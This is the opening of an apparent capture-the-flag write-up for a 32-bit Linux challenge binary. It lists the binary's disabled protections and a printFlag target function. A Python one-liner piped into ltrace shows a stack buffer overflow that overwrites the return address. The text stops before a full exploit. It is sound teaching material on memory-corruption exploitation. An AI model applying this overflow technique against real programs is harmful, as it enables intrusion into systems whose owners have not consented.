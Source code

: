 0x0 Introduction
=

`bby: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3fb9014d549efe4ce761146b736590eb9f7e281d, not stripped
`

This file is ELF 32bit execution.

	CANARY    : disabled

	FORTIFY   : disabled

	NX        : ENABLED

	PIE       : disabled
	
	RELRO     : Partial

It have those protect.

`0804856d <printFlag>:`

And there hava a function call printFlag.If I can controller eip and jump to this function,I will get the flag.

0x1 Vulnerability
=

`
# python -c "print 'a'*24+'zzzz'"|ltrace -i ./bby 

[0x8048491] __libc_start_main(0x80485c9, 1, 0xffb97214, 0x8048610 <unfinished ...>

[0x80485de] puts("This program is hungry. You shou"...This program is hungry. You should feed it.
) = 44

[0x80485f2] __isoc99_scanf(0x80486d8, 0xffb97164, 0xffb9721c, 0xf75573fd) = 1

[0x80485fe] puts("Do you feel the flow?"Do you feel the flow?
)        = 22

[0x7a7a7a7a] --- SIGSEGV (Segmentation fault) ---

[0xffffffffffffffff] +++ killed by SIGSEGV +++
`
